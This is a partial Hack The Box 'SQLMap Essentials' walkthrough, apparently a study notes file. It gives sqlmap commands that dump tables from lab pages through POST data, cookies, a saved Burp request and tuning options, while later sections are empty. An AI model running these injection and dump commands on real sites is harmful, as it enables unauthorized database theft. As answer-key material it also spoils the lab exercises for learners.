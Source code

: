 # [HTB] SQLMap Essentials


## Running SQLMap on an HTTP Request

>**Q. What's the contents of table flag2? (Case #2)**
```bash
sqlmap 'http://94.237.62.6:47094/case2.php' --data 'id=1' --batch --dump
```
>**Q. What's the contents of table flag3? (Case #3)**
```bash
sqlmap -u "http://94.237.62.6:47094/case3.php" --cookie='id=1*' --batch --dump
```
>**Q. What's the contents of table flag4? (Case #4)**
```xml
<?xml version="1.0"?>
<!DOCTYPE items [
<!ELEMENT items (item*)>
<!ATTLIST items burpVersion CDATA "">
<!ATTLIST items exportTime CDATA "">
<!ELEMENT item (time, url, host, port, protocol, method, path, extension, reque>
<!ELEMENT time (#PCDATA)>
<!ELEMENT url (#PCDATA)>
<!ELEMENT host (#PCDATA)>
<!ATTLIST host ip CDATA "">
<!ELEMENT port (#PCDATA)>
<!ELEMENT protocol (#PCDATA)>
<!ELEMENT method (#PCDATA)>
<!ELEMENT path (#PCDATA)>
<!ELEMENT extension (#PCDATA)>
<!ELEMENT request (#PCDATA)>
<!ATTLIST request base64 (true|false) "false">
<!ELEMENT status (#PCDATA)>
<!ELEMENT responselength (#PCDATA)>
<!ELEMENT mimetype (#PCDATA)>
<!ELEMENT response (#PCDATA)>
<!ATTLIST response base64 (true|false) "false">
<!ELEMENT comment (#PCDATA)>
]>
<items burpVersion="2023.1.2" exportTime="Fri Jul 14 10:53:44 CEST 2023">
  <item>
    <time>Fri Jul 14 10:52:04 CEST 2023</time>
    <url><![CDATA[http://94.237.62.6:47094/case4.php]]></url>
    <host ip="94.237.62.6">94.237.62.6</host>
    <port>47094</port>
    <protocol>http</protocol>
    <method><![CDATA[POST]]></method>
    <path><![CDATA[/case4.php]]></path>
    <extension>php</extension>
    <request base64="true"><![CDATA[UE9TVCAvY2FzZTQucGhwIEhUVFAvMS4xDQpIb3N0OiA>
    <status>200</status>
    <responselength>455</responselength>
    <mimetype>HTML</mimetype>
    <response base64="true"><![CDATA[SFRUUC8xLjEgMjAwIE9LDQpEYXRlOiBGcmksIDE0IE>
    <comment></comment>
  </item>
</items>
```

```bash
sqlmap -r case4.txt -p id --dump
```

## Attack Tuning

>**Q. What's the contents of table flag5? (Case #5)**

```bash
sqlmap 'http://94.237.62.6:47094/case5.php?id=1' --batch --dump -T flag5 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag6? (Case #6)**

```bash
sqlmap 'http://94.237.62.6:47094/case6.php?col=id' --prefix='`)' -p col --batch --dump -T flag6 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag7? (Case #7)**

```bash
sqlmap 'http://94.237.62.6:47094/case7.php?id=1' --batch --dump -T flag7 --no-cast --union-cols=5
```

## Database Enumeration

>**Q. What's the contents of table flag1 in the testdb database? (Case #1)**



## Advanced Database Enumeration

>**Q. What's the name of the column containing "style" in it's name? (Case #1)**

```bash

```

>**Q. What's the Kimberly user's password? (Case #1)**

```bash

```

## Bypassing Web Application Protections

>**Q. What's the contents of table flag8? (Case #8)**

```bash

```
 
>**Q. What's the contents of table flag9? (Case #9)**

```bash

```

>**Q. What's the contents of table flag10? (Case #10)**

```bash

```

>**Q. What's the contents of table flag11? (Case #11)**

```bash

```

## OS Exploitation

>**Q. Try to use SQLMap to read the file "/var/www/html/flag.txt".**

```bash

```

>**Q. Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```bash

```

## Skills Assessment

>**Q. What's the contents of table final_flag?**

```bash

```
